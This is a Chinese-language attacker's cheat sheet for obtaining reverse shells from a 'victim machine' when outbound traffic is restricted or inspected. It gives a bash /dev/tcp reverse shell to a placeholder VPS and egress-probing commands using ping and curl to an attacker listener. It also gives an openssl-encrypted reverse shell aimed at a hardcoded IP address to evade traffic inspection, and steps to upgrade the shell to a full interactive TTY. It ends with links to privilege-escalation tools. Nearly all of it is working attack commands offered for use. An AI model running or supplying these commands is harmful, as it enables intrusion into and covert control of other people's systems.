 1、无反弹命令的检查方法
```
受害机上执行：
whereis bash nc python php exec perl ruby telnet

用exec反弹shell：
0<&196;exec 196<>/dev/tcp/<your_vps>/1024; sh <&196 >&196 2>&196
其他命令可通过浏览器插件Hack-Tools查看
```
2、禁止向外流量的检查方法
```
VPS上执行：
tcpdump -i eth0 -n -v icmp|grep -i "length 93"

受害机上执行：
ping -s 65 -c 1 xx.xx.xx.xx
```
3、限定向外端口的检查方法
```
VPS上执行：
nc -n -v -lp 3636

受害机上执行：
curl http://xx.xx.xx.xx:3636
```
4、流量审查的检查方法
```
第一步，在VPS上生成SSL证书的公钥/私钥对：
openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes
第二步，VPS监听反弹shell：
openssl s_server -quiet -key key.pem -cert cert.pem -port 443
第三步，受害机上用openssl加密反弹shell的流量：
mkfifo /tmp/s;/bin/bash -i < /tmp/s 2>&1|openssl s_client -quiet -connect 121.4.92.66 > /tmp/s;rm /tmp/s
此时，VPS上成功获取哑shell
```
将哑shell变为功能齐全的交互式shell
```
第一步，在哑shell中执行：
python -c 'import pty;pty.spawn("/bin/bash")'
第二步：键入Ctrl-Z，回到VPS的命令行中
第三步，在VPS中执行下述命令回到哑shell中：
stty raw -echo
fg
第四步，在哑shell中键入Ctrl-l，并执行：
reset
export SHELL=bash
export TERM=xterm-256color
stty rows 54 columns 104
```

参考链接：  
https://www.freebuf.com/vuls/211847.html  
https://github.com/uknowsec/SweetPotato  
https://github.com/uknowsec/getSystem
